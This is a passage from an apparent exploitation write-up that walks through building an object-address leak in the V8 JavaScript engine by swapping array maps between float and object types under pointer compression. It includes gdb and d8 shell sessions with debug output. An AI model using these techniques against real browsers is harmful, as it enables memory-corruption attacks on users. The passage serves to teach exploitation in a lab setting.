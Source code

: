 The trick comes when I create `var b = [{"A": 1}]`. Instead of 64-bits
representing 1.1, there’s now a pointer to the object `{"A":1}`. But because
of pointer compression, that’s a 32-bit pointer. So calling `GetLastElement`
casts everything to be doubles, so that pointer + the map pointer is element
0, and then the properties and the elements pointer are object 1, which is
returned.

This does give me access to the elements pointer, which provides a different
exploitation path as well. But to continue down this path of messing with
maps, I’ll need to jump through a couple extra hoops to get things to align:

  * Start with an array with a single float in it, so that the memory aligns how I want it.
  * Change the map to reflect an array with a single object.
  * Set the first element of the array to the object I want to locate. Because the map is the same, the elements pointer won’t change, which is what I want, and the pointer will overwrite the first half of the original float.
  * Change the map back to a float.
  * Read the value of the first object (index 0) of the array, which contains the pointer to the object, which comes back as as float.

In practice, I’ll start a `d8` shell in `gdb` with I’ll start with
`exploit.js` providing the two functions in the previous section.

    
    
    gef➤  run --allow-natives-syntax exploit.js --shell
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7fb0ed6ad700 (LWP 63204)]
    V8 version 8.5.0 (candidate)
    d8>
    

I’ll create an object, `obj`. I can run `%DebugPrint` here to see the address
in memory, but I won’t have access to that in a live exploit.

    
    
    d8> var obj = {"findme": 1};
    undefined
    d8> %DebugPrint(obj);
    0x3ecd0808823d <Object map = 0x3ecd08244e51>
    {findme: 1}
    

To find it’s address, I’m going to start with a float array. It’s map will be
`PACKED_DOUBLE_ELEMENTS`:

    
    
    d8> var arr = [1.1];
    undefined
    d8> %DebugPrint(arr)
    0x3ecd080889b9 <JSArray[1]>
    [1.1]
    

I can leak that map (and the properties as I get 64-bits, but the map pointer
is compressed to 32-bits) using the `GetLastElement` function:
